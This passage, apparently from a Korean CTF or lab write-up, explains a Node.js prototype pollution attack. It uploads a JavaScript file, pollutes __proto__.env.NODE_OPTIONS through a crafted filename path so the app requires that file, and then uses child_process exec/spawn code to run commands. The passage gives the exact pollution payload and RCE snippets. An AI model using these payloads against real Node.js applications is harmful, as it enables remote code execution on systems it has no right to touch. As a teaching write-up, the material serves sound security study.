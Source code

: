 따라서 공격 방식은 다음과 같다.

<br>

```NODE_OPTIONS```의 ```--require [module]```에서 모듈 인자가 될 자바스크립트 코드(environ.js)를 업로드 한다.

이 코드에는 테스트를 위해 ```console.log(123)```을 넣어주도록 한다.

burp를 이용해서 타입을 조건에 맞게 변경(```chose/javascript```)하여 업로드 해주면 된다.

<br>

그 다음 코드를 보면 ```func.merge(file, JSON.parse(`{"filename":"${filename}", "State":"Not Found"}`));```가 있다.

이 부분에서 pollution을 해주면 되므로 ```/raw/abc","__proto__":{"env":{"NODE_OPTIONS":"--require=.%2fpublics%2fuploads%2fenviron.js"}},"b":"sf```로 가주면 pollution이 된다.

<br>

이제 debug 페이지에 가보면 ```123 Debug mode on```이라고 출력된 모습을 볼 수 있다.

이제 environ.js에 rce 코드를 넣어주면 된다.

<br>

```javasript
onst exec = require('child_process').exec, ls = exec('ls'); 

ls.stdout.on('data', function(data) { console.log(data) });
```

<br>

또는 

<br>

```javascript
var spawn = require('child_process').spawn, ls = spawn('ls', ['-a']); 

ls.stdout.on('data', function (data) { console.log('stdout:' + data); });
```

<br>

코드에서 ```stdout.on```을 해줘야 하는데 이유는 아래 블로그에서 확인할 수 있다.

바로 위의 코드도 해당 블로그에서 가져온 것이다.

```
자식 프로세스는 child.stdin, child.stdout, child.stderr 의 3가지 종류의 스트림을 사용합니다.

ChildProcess도 EventEmitter의 객체여서 각 스트림에 이벤트 리스너를 등록할 수 있습니다

출처: https://backback.tistory.com/362 [Back Ground:티스토리]
```
